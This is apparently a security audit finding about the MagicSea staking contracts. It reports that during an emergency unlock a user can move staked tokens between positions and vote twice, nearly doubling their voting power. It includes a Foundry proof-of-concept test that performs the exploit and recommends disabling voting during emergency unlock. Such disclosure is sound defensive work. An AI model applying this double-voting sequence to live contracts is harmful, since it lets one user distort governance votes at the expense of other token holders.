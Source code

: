 Docile Golden Donkey

High

# During emergency unlock, a user might transfer stakingToken from one position to another and thus cheat the voting system to vote more votes than his combined voting power.

## Summary
During emergency unlock, a user can withdraw from a position before the lock expires. As a result, the user can  transfer stakingToken from one position to another and thus cheat the voting system to vote more votes than his combined voting power. 

## Vulnerability Detail

In the following, we show a user can cast 2 ether votes even though his combined voting power is only 1076700000000000001:

1. Alice open the first position with 1 ether, creating a voting power of 1076700000000000000.
2. Alice open a second position with 1 wei, creating a voting power of 1. 
3. During emergency unlock, Alice cast a vote using the first position, used voting power of 1 ether;
4. During the emergency unlock, Alice withdraw 1 ether - 1 staking token from position 1 and then addToPosition to position 2, as a result, position 2 has the voting power of 1 ether. 
5. Alice votes using position 2, using the voting power of 1 ether. 
6. The final votes that Alice casted is 2 ether instead of 1.0767 ether. Alice voted nearly doubled of her voting power.

The POC is as follows (run ```forge test --match-test testStealVote -vv```):

```javascript
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.20;

import "forge-std/Test.sol";

import "openzeppelin-contracts-upgradeable/access/OwnableUpgradeable.sol";
import "../src/transparent/TransparentUpgradeableProxy2Step.sol";

import "openzeppelin/token/ERC721/ERC721.sol";
import "openzeppelin/token/ERC20/ERC20.sol";
import {ERC20Mock} from "./mocks/ERC20.sol";
import {MasterChefMock} from "./mocks/MasterChefMock.sol";
import {MlumStaking} from "../src/MlumStaking.sol";
import "../src/Voter.sol";
import {IVoter} from "../src/interfaces/IVoter.sol";

contract VoterTest is Test {
    address payable immutable DEV = payable(makeAddr("dev"));
    address payable immutable ALICE = payable(makeAddr("alice"));
    address payable immutable BOB = payable(makeAddr("bob"));

    Voter private _voter;
    MlumStaking private _pool;

    ERC20Mock private _stakingToken;
    ERC20Mock private _rewardToken;

    function setUp() public {
        vm.prank(DEV);
        _stakingToken = new ERC20Mock("MagicLum", "MLUM", 18);

        vm.prank(DEV);
        _rewardToken = new ERC20Mock("USDT", "USDT", 6);

        vm.prank(DEV);
        address poolImpl = address(new MlumStaking(_stakingToken, _rewardToken));

        _pool = MlumStaking(
            address(
                new TransparentUpgradeableProxy2Step(
                    poolImpl, ProxyAdmin2Step(address(1)), abi.encodeWithSelector(MlumStaking.initialize.selector, DEV)
                )
            )
        );

        vm.prank(DEV);
        MasterChefMock mock = new MasterChefMock();

        vm.prank(DEV);
        address voterImpl = address(new Voter(mock, _pool, IRewarderFactory(address(new RewaderFactoryMock()))));

        _voter = Voter(
            address(
                new TransparentUpgradeableProxy2Step(
                    voterImpl, ProxyAdmin2Step(address(1)), abi.encodeWithSelector(Voter.initialize.selector, DEV)
                )
            )
        );

        vm.prank(DEV);
        _voter.updateMinimumLockTime(2 weeks);
    }


function testStealVote() public {
        address[] memory pools = new address[](1);
        pools[0] = 0x95f00a7125EC3D78d6B2FCD6FFd9989941eF25fC;
        uint256[] memory deltaAmounts = new uint256[](1);
        deltaAmounts[0] = 1e18;

        vm.prank(DEV);
        _voter.startNewVotingPeriod();

        _stakingToken.mint(ALICE, 2 ether);

        // ALICE create two positions
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 2 weeks);
        vm.stopPrank();

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1);
        _pool.createPosition(1, 2 weeks);
        vm.stopPrank();

        vm.prank(DEV);
        _pool.setEmergencyUnlock(true);

        console2.log("print two positions...");
        _pool.printPosition(1);
        _pool.printPosition(2);

        vm.startPrank(ALICE);
        _voter.vote(1, pools, deltaAmounts);
        _pool.withdrawFromPosition(1, 1 ether - 1);
        _stakingToken.approve(address(_pool), 1 ether - 1);
        _pool.addToPosition(2, 1 ether - 1);
        _voter.vote(2, pools, deltaAmounts);
        vm.stopPrank();

        console2.log("print two positions...");
        _pool.printPosition(1);
        _pool.printPosition(2);
}
}

```

## Impact
During emergency unlock, a user might transfer stakingToken from one position to another and thus cheat the voting system to vote more votes than his combined voting power. 

## Code Snippet

[https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/MlumStaking.sol#L619-L650](https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/MlumStaking.sol#L619-L650)

## Tool used
Foundry

Manual Review

## Recommendation
We should not allow voteing during emergency unlock.
